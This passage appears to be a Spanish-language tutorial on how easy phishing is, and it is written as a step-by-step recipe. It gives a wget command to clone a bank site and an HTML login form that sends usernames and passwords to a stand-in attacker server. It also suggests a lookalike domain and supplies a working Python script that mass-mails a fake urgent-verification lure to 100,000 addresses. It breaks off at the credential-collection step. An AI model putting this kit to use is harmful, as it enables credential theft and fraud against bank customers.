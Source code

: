 ### 📧 Ejemplo práctico de lo fácil que es montar un phishing

#### Paso 1: Clonar un sitio web

Un atacante puede usar un comando como este (con `wget` en Linux) para clonar un sitio legítimo:

```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://banco.com
```

Esto descarga el sitio oficial. Luego, cambia el formulario de inicio de sesión para que en lugar de enviarse a `https://banco.com/login`, se envíe a su propio servidor:

```html
<form action="http://atacante.com/guardar.php" method="post">
  Usuario: <input type="text" name="usuario" /> Contraseña:
  <input type="password" name="clave" />
  <input type="submit" value="Ingresar" />
</form>
```

#### Paso 2: Registrar un dominio parecido

- Legitimo: `banco.com`
- Falso: `banc0.com` (con cero en lugar de “o”)
- Costo: **\~10 USD**

#### Paso 3: Enviar correos masivos

Con un simple script en Python o con servicios ilegales de spam, se envían miles de correos:

```python
import smtplib

server = smtplib.SMTP("smtp.mailtrap.io", 587)
server.starttls()
server.login("usuario", "clave")

mensaje = """\
De: soporte@banc0.com
Asunto: Verificación urgente

Estimado cliente,
Detectamos actividad inusual en su cuenta. Verifique inmediatamente en:
http://banc0.com/seguridad
"""

for i in range(100000):  # envía a miles de usuarios
    server.sendmail("soporte@banc0.com", f"victima{i}@ejemplo.com", mensaje)
```

#### Paso 4: Recolectar credenciales

En el archivo `guardar.php`, el atacante guarda las credenciales robadas:
